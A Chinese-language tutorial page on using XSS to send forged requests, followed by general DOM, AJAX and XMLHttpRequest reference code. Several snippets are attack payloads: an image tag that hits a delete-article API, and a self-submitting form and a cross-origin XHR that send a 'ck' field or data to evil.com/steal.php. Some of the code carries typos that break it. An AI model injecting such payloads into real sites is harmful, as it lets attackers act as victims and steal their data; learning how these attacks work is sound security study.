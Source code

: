 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)XSS模拟发送请求

## ![](../img/github1.png)模拟发送GET请求
发送一个删除文章的get请求：
```
var img=document.createElement("img");
img.src="http://删除文章的api链接“；
document.body.appendChild(img);
```
## ![](../img/github2.png)模拟发送POST请求
### DOM节点法
通过js最终发出一条消息：
构造一个form表单，然后自动提交
```
var f = document.createElement（“form”）;
f.action="http://www.evil.com/steal.php";			//可修改
f.method="post";
document.body.appendChild(f);

var i1 = document.createElement("input");
il.name="ck";													//可修改
il.value="hijack";												//可修改
f.appendChild(il);

var i2 = document.createElement("input");
i2.name="mb_text";										//可修改
i2.value="thisisatest";										//可修改
f.appendChild(i2);
f.submit();
```


## ![](../img/github3.png)DOM树操作
### document.getElementById('id号').innerHTML;
举例：
```
<html>
<head></head>
<body>

<div id ='world'></div>
<div id = 'hello'>我是要获取的数据</div>

</body>
</html>
则要获取的数据=document.getElementById('hello').innerHTML
innerHTML表示设置或返回标签对象内的HTML数据
```
### document.getElementByTagName('div')\[1\].innerHTML;

>小贱提示：从上往下数，从0开始数

### 获取URL网址：window.location或location

### ajax

>小贱提示：
>
>AJAX = 异步 JavaScript 和 XML。
>
>AJAX 是一种用于创建快速动态网页的技术。可以在不重新加载整个网页的情况下，对网页的某部分进行更新

ajax 举例：

div 部分用于显示来自服务器的信息。当按钮被点击时，它负责调用名为 loadXMLDoc() 的函数：
```
<html>
<body>
<div id="myDiv"><h3>Let AJAX change this text</h3></div>
<button type="button" onclick="loadXMLDoc()">Change Content</button>
</body>
</html>
```

在页面的 head 部分添加一个 \<script> 标签。该标签中包含了这个 loadXMLDoc() 函数：

```
<head>
<script type="text/javascript">
function loadXMLDoc()
{
.... AJAX script goes here ...
}
</script>
</head>
```
### XMLHttpRequest
XHR创建对象
```
所有现代浏览器（IE7+、Firefox、Chrome、Safari 以及 Opera）均内建 XMLHttpRequest 对象。
创建 XMLHttpRequest 对象的语法：
variable=new XMLHttpRequest();
老版本的 Internet Explorer （IE5 和 IE6）使用 ActiveX 对象：
variable=new ActiveXObject("Microsoft.XMLHTTP");

为了应对所有的现代浏览器，包括 IE5 和 IE6，请检查浏览器是否支持 XMLHttpRequest 对象。如果支持，则创建 XMLHttpRequest 对象。如果不支持，则创建 ActiveXObject ：
var xmlhttp;
if (window.XMLHttpRequest)
  {// code for IE7+, Firefox, Chrome, Opera, Safari
  xmlhttp=new XMLHttpRequest();
  }
else
  {// code for IE6, IE5
  xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
  }
```
XHR请求

如需将请求发送到服务器，我们使用 XMLHttpRequest 对象的 open() 和 send() 方法：

xmlhttp.open(method,url,Async)      举例：
```
xmlhttp.open("GET","text1.txt",true)；xmlhttp.send();
```
Async=true：异步,XMLHttpRequest 对象如果要用于 AJAX 的话，其 open() 方法的 async 参数必须设置为 true：
此时需要规定在响应处于 onreadystatechange 事件中的就绪状态时执行的函数：
Async=false：同步（不推荐）

举例：
get请求：
```
xmlhttp.onreadystatechange=function()
  {
  if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
    document.getElementById("myDiv").innerHTML=xmlhttp.responseText;//此处是自己可以修改的代码
    }
  }
xmlhttp.open("GET","demo_get2.asp?fname=Bill&lname=Gates",true);
xmlhttp.send();
```

post请求：
```
xmlhttp.onreadystatechange=function()
  {
  if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
    document.getElementById("myDiv").innerHTML=xmlhttp.responseText;//此处是自己可以修改的代码
    }
  }
xmlhttp.open("POST","ajax_test.asp",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded"); //添加http头
xmlhttp.send("fname=Bill&lname=Gates");
```
针对IE浏览器优化XMLHttpRequest：
```
<script>
function createCORSRequest(method,url){
  var xhr=new XMLHttpRequest();
  if("withCredentials" in xhr){
    xhr.open(method,url,true);}
  else if (typeof XDomainRequest != "undefined"){
    xhr=new XDomainRequest();
    xhr.open(method,url);}
  else {xhr=null;}
  return xhr;}


var request = createCORSRequest("get","http://www.evil.com/steal.php?data=456");
if (request){
  request.onload=function(){alert(request.responseText);};
  request.send();}
</script>
//如果是post，则request.send("fname=Bill&lname=Gates")
```

__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
